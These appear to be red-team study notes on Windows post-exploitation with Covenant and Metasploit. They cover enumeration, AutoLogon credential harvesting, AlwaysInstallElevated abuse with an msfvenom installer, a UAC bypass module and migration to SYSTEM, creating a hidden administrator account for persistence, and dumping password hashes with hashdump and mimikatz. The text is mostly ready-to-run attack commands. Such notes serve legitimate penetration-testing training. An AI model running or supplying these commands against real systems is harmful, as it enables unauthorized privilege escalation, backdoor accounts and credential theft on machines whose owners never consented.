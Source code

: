# Enumeration, Privilege Escalation and Persistence

* For local enumeration with Covenant, we can use ```Seatbelt``` in our grunt - this gives us a lot of output to go through.

* For local enumeration with Metasploit, we can do the following:

  ```shell
  # in reverse shell session on Metasploit

  sysinfo

  getuid

  ipconfig
  # check for new subnets

  arp
  # check for other devices on same network

  netstat -ano

  run post/windows/gather/enum_services
  # enumerate running services

  run post/windows/gather/enum_applications
  # enumerate installed apps

  run post/windows/gather/enum_domains
  # might not work

  route

  # more enum
  ```

* AutoLogon exploitation:

  ```shell
  # use PowerView in Covenant

  powershell invoke-allchecks
  # this gives us the Autologon creds

  # can use Seatbelt as well
  Seatbelt WindowsAutoLogon
  ```

* AlwaysInstallElevated exploitation:

  ```shell
  # use sharpup in Covenant
  # similar to PowerView

  sharpup audit
  # shows AlwaysInstallElevated registry count 1

  # generate a malicious installer using msfvenom
  # and upload it to target and run it
  ```

* UAC bypass:

  ```shell
  # in Metasploit

  sessions -i 1
  # access existing session

  run post/multi/recon/local_exploit_suggester
  # use bypass uac exploit

  # background session using Ctrl+Z

  use exploit/windows/local/bypassuac_dotnet_profiler

  # config exploit options

  exploit -j

  # gives new session
  
  sessions -i 4

  getuid
  # still not system

  ps
  # we can view system processes

  migrate 580
  # migrate to any system process

  getuid
  # we are system now
  ```

* New user persistence:

  ```shell
  # in existing remote session in Covenant

  shellcmd net users newuser Password123! /add

  shell net users
  # shows newly created user

  shell net localgroup administrators newuser /add
  # add to administrators group
  ```

* Dumping hashes:

  ```shell
  # in Metasploit session

  run post/windows/gather/win_privs

  getsystem

  getuid
  # system user

  hashdump
  # dumps hashes

  load kiwi
  # load mimikatz

  help
  # view all commands

  creds_all
  # this dumps hashes as well

  lsa_dump_sam
  # hashes can be cracked using Hashcat or JtR
  ```

